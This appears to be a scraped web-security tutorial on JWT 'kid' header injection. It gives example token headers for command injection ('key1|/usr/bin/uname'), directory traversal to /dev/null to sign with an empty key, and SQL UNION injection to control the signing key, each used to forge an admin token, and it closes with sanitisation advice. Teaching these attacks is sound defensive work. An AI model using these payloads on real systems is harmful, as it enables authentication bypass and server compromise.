

kid parameter injection
kid parameter injections
The JWT header can contain the Key Id parameter kid. It is often used to retrieve the key from a database or filesystem. The application verifies the signature using the key obtained through the kid parameter. If the parameter is injectable, it can open the way to signature bypass or even attacks such as RCE, SQLi, and LFI.
To see this in action, let’s start with the following valid token:
{
"alg": "HS256",
"typ": "JWT",
"kid": "key1"
}.
{
"name": "John Doe",
"user_name": "john.doe",
"is_admin": false
} ▪
https://base64.guru/standards/base64url/encode ▪
https://base64.guru/standards/base64url/decodeThe parameter
is NOT vulnerable if the crafted response give us something like this
•
kid parameter injectionIf the kid parameter is vulnerable to command injection, the following modification might lead to remote code execution:
{
"alg": "HS256",
"typ": "JWT",
"kid": "key1|/usr/bin/uname"
}.
{
"name": "John Doe",
"user_name": "john.doe",
"is_admin": false
}•
kid parameter injection + directory traversal = signature bypassIf an application uses the kid parameter to retrieve the key from the filesystem, it might be vulnerable to directory traversal. Then an attacker can force the application to use a file whose value the attacker can predict as a key for verification. This can be done using any static file within the application. Knowing the key file value, the attacker can craft a malicious token and sign it using the known key.
Continuing with the previous JWT example, an attacker might try to insert /dev/null as the key source to force the application to use an empty key:
{
"alg": "HS256",
"typ": "JWT",
"kid": "../../../../../../dev/null"
}.
{
"name": "John Doe",
"user_name": "john.doe",
"is_admin": true
}If directory traversal to /dev/null succeeds, the attacker will be able to sign a malicious token using an empty string. The same technique can be used with known static files, for example CSS files.
•
kid parameter injection + SQL injection = signature bypassIf an application uses the kid parameter to retrieve the key from a database, it might be vulnerable to SQL injection. If successful, an attacker can control the value returned to the kid parameter from an SQL query and use it to sign a malicious token.
Again using the same example token, let’s say the application uses the following vulnerable SQL query to get its JWT key via the kid parameter:
SELECT key FROM keys WHERE key='key1'
An attacker can then inject a UNION SELECT statement into the kid parameter to control the key value:
{
"alg": "HS256",
"typ": "JWT",
"kid": "xxxx' UNION SELECT 'aaa"
}.
{
"name": "John Doe",
"user_name": "john.doe",
"is_admin": true
}If SQL injection succeeds, the application will use the following query to retrieve the signature key:
SELECT key FROM keys WHERE key='xxxx' UNION SELECT 'aaa'Copy
This query returns aaa into the kid parameter, allowing the attacker to sign a malicious token simply with aaa.
To avoid these and other injection attacks, applications should always sanitize the value of the kid parameter before using it.
Bibliography:
https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/